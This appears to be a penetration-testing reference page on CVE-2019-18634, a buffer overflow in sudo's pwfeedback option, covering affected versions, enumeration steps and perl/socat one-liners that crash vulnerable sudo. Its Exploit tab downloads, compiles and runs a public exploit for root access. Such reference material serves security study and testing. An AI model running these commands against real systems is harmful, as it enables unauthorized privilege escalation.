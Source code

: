 ```yaml
---
description: CVE-2019-18634
---
```


# Pwfeedback BOF

## Theory

Sudo’s pwfeedback option can be used to provide visual feedback when the user is inputting their password. For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard `Password:` prompt disables the echoing of key presses. While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.

The vulnerability affect sudo versions **1.7.1** to **1.8.30**.

{% hint style="danger" %}
Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled. The bug can be reproduced by passing a large input with embedded terminal kill characters to sudo from a pseudo-terminal
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To exploit, sudo version must be vulnerable (**1.7.1** to **1.8.30**)

```bash
$ sudo -V
Sudo version 1.8.30
```

Pwfeedback must be enabled. You may verify it with `sudo -l`. If pwfeedback is listed in the “Matching Defaults entries” output, the sudoers configuration is affected.

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, pwfeedback, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) /usr/bin/python3 /opt/custom/service.py
```

To check the exploitability of sudo, you may run the following commands. If it's returns a `Segmentation fault` error message, then it’s vulnerable.

```bash
$ socat pty,link=/tmp/pty,waitslave exec:"perl -e 'print((\"A\" x 100 . chr(0x15)) x 50)'" &
$ sudo -S -k id < /tmp/pty
Password: Segmentation fault (core dumped)
```

For sudo versions prior to 1.8.26, and on systems with uni-directional pipes, reproducing the bug is simpler.

```bash
$ perl -e 'print(("A" x 100 . chr(0)) x 50)' | sudo -S -k id
Password: Segmentation fault (core dumped)
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [exploit](https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c) written by Saleem Rashid.

```bash
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
./exploit
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.sudo.ws/security/advisories/pwfeedback/" %}
